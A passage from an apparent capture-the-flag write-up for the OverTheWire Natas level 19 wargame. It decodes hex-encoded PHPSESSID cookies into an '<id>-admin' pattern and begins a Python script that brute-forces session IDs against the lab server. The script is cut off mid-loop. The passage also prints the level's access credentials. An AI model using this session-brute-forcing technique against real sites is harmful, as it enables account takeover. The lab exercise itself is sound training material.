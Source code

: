    > This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

    We can no longer view the server-side `php` code, so we have to trust this message.

- We now login using some random value for `username` and `password` and inspect the cookies it creates. Each time a cookie is created, we note it down, then delete it and log in again. Here is a sample of the various cookies that were created:
  >>>  
        PHPSESSID: "34 35 2d61646d696e"
        PHPSESSID: "31 30 37 2d61646d696e"
        PHPSESSID: "39 36 2d61646d696e"
        PHPSESSID: "34 33 31 2d61646d696e"
        PHPSESSID: "33 35 34 2d61646d696e"
        PHPSESSID: "34 36 36 2d61646d696e"
        PHPSESSID: "35 37 35 2d61646d696e"
        PHPSESSID: "35 30 36 2d61646d696e"
        PHPSESSID: "33 36 2d61646d696e"
        PHPSESSID: "33 30 34 2d61646d696e"

    There is clearly a pattern to how these cookies are being set by the server. There is always an even number of characters, the first few pairs always begin with `3` and the characters used are all symbols used in hexadecimal number system. When we convert these hexadecimal values to `ascii`, we get a result similar to the following:

    ![images/level19_conversion.png](images/level19_conversion.png)

    Conversion of cookies (in hex) to ascii. Indeed, 31 is 1 in ascii, 30 is 0 and 37 is 7.

    Clearly the pattern is `<range(1, $max_id)>-admin`, assuming that the value of `$max_id` is still 640.

- Now, all we need to do is brute force the cookie value just like in the previous level. The code for this is as follows:

    ```python
    import re
    import requests

    auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
    cookies = { "PHPSESSID" : '1' }
    url = "http://natas19.natas.labs.overthewire.org/"

    for i in range(641):
        value = bytes(str(i) + '-admin', 'ascii')
        hexValue = value.hex()
        cookies["PHPSESSID"] = hexValue 
        response = requests.post(url, cookies=cookies, auth=auth)
